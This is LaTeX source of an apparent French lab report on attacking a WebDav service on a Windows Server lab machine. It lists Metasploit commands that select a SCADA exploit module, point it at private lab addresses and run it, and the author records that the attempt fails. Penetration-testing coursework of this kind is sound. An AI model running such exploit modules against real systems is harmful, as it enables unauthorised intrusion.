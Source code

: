 \documentclass[a4paper]{article}
\begin{document}
Dans les consignes, WebDav est mis avec FTP. Donc voici mes recherches sur l'exploitation du service WebDav (sur Windows Server):
\begin{enumerate}
    \item J'ai essayé de lancer un exploit dès le début car il y avait l'air d'y en avoir beaucoup. Cependant, il n'a pas fonctionné comme on peut le voir sur la figure \ref{fig:failWebdav01}.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search webdav}
            \item \texttt{\footnotesize use windows/scada/ge\_proficy\_cimplicity\_gefebt}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8585}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set SRVHOST 192.168.1.3}
            \item \texttt{\footnotesize check}
            \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] 192.168.1.4:8585 - Cannot reliably check exploitability.
\end{Verbatim}
            \end{example}
            \item \texttt{\footnotesize run}
        \end{itemize}
        C'est un \textcolor{red}{\textbf{échec}}, metasploit n'arrive pas obtenir un accès avec WebDav (figure \ref{fig:failWebdav01}).
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.90\linewidth]{images/fail-webdav-windows-01.PNG}
        \caption{Échec de gain d'accès avec WebDav}
        \label{fig:failWebdav01}
    \end{figure}

\end{enumerate}
\end{document}
